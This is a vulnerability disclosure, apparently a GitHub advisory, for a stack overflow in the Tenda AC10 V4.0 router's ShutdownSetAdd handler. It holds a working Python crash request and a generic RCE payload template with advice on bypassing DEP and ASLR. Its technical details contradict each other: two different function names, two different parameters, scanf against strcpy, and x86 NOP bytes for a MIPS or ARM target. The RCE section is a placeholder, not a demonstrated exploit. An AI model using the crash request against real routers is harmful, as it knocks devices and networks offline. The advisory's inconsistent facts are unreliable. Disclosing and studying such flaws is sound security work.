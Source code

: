 # Vulnerability Title  
Stack Overflow to RCE Vulnerability in Tenda AC10 V4.0 V16.03.10.13 Router  

# Vulnerability Details  
## Vulnerability Description  
The Tenda AC10 V4.0 (V16.03.10.13) router is affected by a stack overflow vulnerability. Attackers can exploit this vulnerability by sending specially crafted requests, leading to a stack overflow that may crash the router or disrupt its services.  

The vulnerability resides in the `ShutdownSetAdd` function. Specifically, the program fails to properly restrict the length of user-supplied input for the `list` parameter, resulting in a stack overflow when calling `scanf`.  

## Vulnerability Type  
Binary Vulnerability (Stack Overflow)  

## Vendor Information  
+ **Vendor Name (Chinese)**: 深圳市吉祥腾达科技有限公司  
+ **Vendor Name (English)**: Shenzhen Tenda Technology Co., Ltd.  
+ **Vendor Website**: [https://www.tenda.com.cn](https://www.tenda.com.cn)  
+ **Affected Product and Version**: Tenda AC10 V4.0 V16.03.10.13  
+ **Affected Device Type**: Network Devices (e.g., routers, switches)  

### Vendor Information Screenshots  
![](file-WFLbTUWS6RFcp4dQR9cGkC.png)![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739874684184-3b075b3a-a947-4eeb-abf3-93616b090dca.png)  

## Vulnerability Reproduction  
1. **Firmware Download**: [Tenda AC10 Firmware Download](https://www.tenda.com.cn/download/detail-3518.html)  
2. **Reproduction Steps**:  
Attackers can crash the router by sending a malicious request. Below is an example of the attack code:  

```python  
import requests  

url = "http://192.168.0.6/goform/ShutdownSetAdd"  
data = {  
    'time': 'A' * 10000  # Crafted long data  
}  

res = requests.post(url=url, data=data)  
print(res.content)  
```  

3. **Attack Result**:  
   - The program exits due to a stack overflow error, causing the router to crash and become unresponsive.  

### Firmware Download Page Screenshot  
![](file-LDrr79SGTrkMasmmonWPcq.png)![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739874693829-2b3e5735-3e18-4d0f-bbd8-34d406d6e789.png)  

### Vulnerability Trigger Result Screenshots  
+ After the attack, the router crashes and displays the following interface, becoming inaccessible.  
+ ![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739874809482-c83c5b33-c50e-4d64-a82d-b150243dded9.png)  
![](file-BhVt8NRfckRnDUbSWTPpaV.png)  

### Attack Process and Code Analysis Screenshots  
1. **Vulnerable Code Analysis**:  
The vulnerability occurs in the `setSmartPowerManagement` function. The program retrieves the user-supplied `list` parameter and stores it in the `__s` variable, then calls the `scanf` function without properly checking the input length, leading to a stack overflow. Below are the relevant code analysis screenshots:  
![](file-PizMp6hzXUEz8MhkcvZ1Fz.png)  
    1. ![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739874862771-b095d510-d6c3-4e2d-9752-65a98310f698.png)  
    2. ![image](https://github.com/user-attachments/assets/1af7b823-9f7f-43bf-9ab0-511a8adf4e40)
 
2. **Attack Execution Screenshots**:  
The following screenshots demonstrate the program's output after executing the attack via the command line, showing the crash caused by the stack overflow error.  
![](file-M4eTGkAsCUXMxHg8Jn7GfG.png)  
    1. ![image](https://github.com/user-attachments/assets/62d07232-f709-44a1-8cda-c07af428b45e)


### Vulnerability Reproduction Proof Video  
**Baidu Netdisk Video**: [https://pan.baidu.com/s/1_zhGlS0fFhz0Pkh8svljjA?pwd=viwq](https://pan.baidu.com/s/1_zhGlS0fFhz0Pkh8svljjA?pwd=viwq) **(Extraction Code: viwq)**  

## Vulnerability Location  
+ The vulnerability is located in the `ShutdownSetAdd` function, where the `time` parameter's length is not restricted, resulting in a stack overflow.  

## Vulnerability Impact  
+ Attackers can exploit this vulnerability to crash the router, disrupting its services.  
+ In environments with multiple connected devices, this may render the devices unusable, affecting user experience and service quality.  

# Mitigation Strategies  
+ **Temporary Solution**:  
Replace unsafe functions like `strcpy` with `read` to limit input data length.  
+ **Permanent Solution**:  
Fix the vulnerability in subsequent firmware versions by adding input length restrictions and ensuring the system safely handles input data to prevent stack overflows.  

# Vulnerability Proof (Supplement: Remote Code Execution RCE)  

## Exploit Chain Construction and Reproduction  

### 1. Overview  
This is a classic stack overflow vulnerability. Attackers can craft malicious input to overwrite the function return address and redirect the control flow to custom code (shellcode), achieving Remote Code Execution (RCE).  

### 2. Exploitation Steps  

#### 2.1 Determine Overflow Offset  
- Use pattern generation tools (e.g., Metasploit's `pattern_create`) to craft input;  
- Trigger a crash and analyze the position where the return address is overwritten;  
- Calculate the exact offset using `pattern_offset`.  

#### 2.2 Craft Payload  
- Construct a NOP Sled to increase the success rate of the jump;  
- Write or reuse Shellcode compatible with the target architecture (e.g., MIPS, ARM);  
- Fill data up to the offset;  
- Overwrite the return address with the starting address of the Shellcode or NOP sled.  

#### Example Payload:  

```python  
offset = 256  
nop_sled = b'\x90' * 100  
shellcode = b'\xCC' * 50  
padding = b'A' * (offset - len(nop_sled) - len(shellcode))  
ret_addr = b'\xef\xbe\xad\xde'  
payload = nop_sled + shellcode + padding + ret_addr  
```  

#### 2.3 Bypass Protections  
- If DEP/NX is enabled, use ROP chains to bypass it;  
- If ASLR is enabled, combine it with information leaks to obtain the memory base address.  

#### 2.4 Execution Effect  
- Upon successful exploitation, attackers can remotely obtain Shell access to the router;  
- Attackers can execute system commands, modify configurations, or bridge into the internal network.  

### 3. Debugging and Verification Suggestions  
- Simulate the router environment using platforms like QEMU;  
- Use GDB with IDA Pro for dynamic debugging and verification;  
- Ensure the Shellcode execution path is correct and the output is controllable.  

# Vulnerability Impact (Updated)  
With a carefully crafted payload, attackers can not only crash the router but also remotely execute arbitrary commands, gaining full control of the device. This poses a severe threat to user network security, enabling DNS hijacking, network traffic interception, or using the device as a pivot for internal network attacks.  

# Mitigation Strategies (Supplement)  
- Add length restrictions for functions like `scanf`, e.g., `%32s`;  
- Enable stack protection mechanisms (Stack Canary);  
- Implement memory protection technologies like DEP and ASLR for the firmware;  
- Regularly update the firmware to patch related vulnerabilities;  
- Add whitelist mechanisms to restrict input sources.
